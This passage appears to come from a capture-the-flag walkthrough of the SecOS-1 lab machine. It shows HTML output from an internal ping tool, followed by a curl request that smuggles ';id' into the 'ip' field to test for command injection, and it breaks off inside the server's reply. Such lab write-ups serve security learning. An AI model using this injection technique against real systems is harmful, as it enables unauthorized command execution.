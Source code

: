```bash
            <span class="sr-only">Toggle navigation</span>
          </button>
          <a class="navbar-brand" href="/">Internal admin tools</a>
        </div>
        <div class="navbar-collapse collapse">
          <ul class="nav navbar-nav">
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </div>

    <div class="container">
      <form class="form-signin" action="/" method="POST">
        <h4 class="form-signin-heading">Enter the IP you want to ping</h4>
        <input type="text" class="input-block-level" placeholder="127.0.0.1" name="ip"><br />
        <button class="btn btn-large btn-primary" type="submit">Ping !</button>
      </form>

        
        <div class="panel panel-default">
            <div class="panel-heading">
                <h3 class="panel-title">Ping result</h3>
            </div>
            <div class="panel-body">PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.033 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.033/0.033/0.033/0.000 ms
</div>
        </div>
        

    </div> <!-- /container -->

  </body>
</html>
```

yes it works so lets try using some command injection with `;` and `id` command :

```bash
spiderman@SecOS-1:~/vnwa$ curl --data 'ip=127.0.0.1 -c 1;id' 127.0.0.1:9000

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="description" content="">
    <meta name="author" content="">
    <!-- <link rel="shortcut icon" href="../../assets/ico/favicon.ico"> -->

    <title>Internal Web App</title>

    <!-- Bootstrap core CSS -->
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <!-- Bootstrap theme -->
    <link href="/css/bootstrap-theme.min.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="/css/theme.css" rel="stylesheet">
    <link href="/css/theme-secure-web-app.css" rel="stylesheet">
```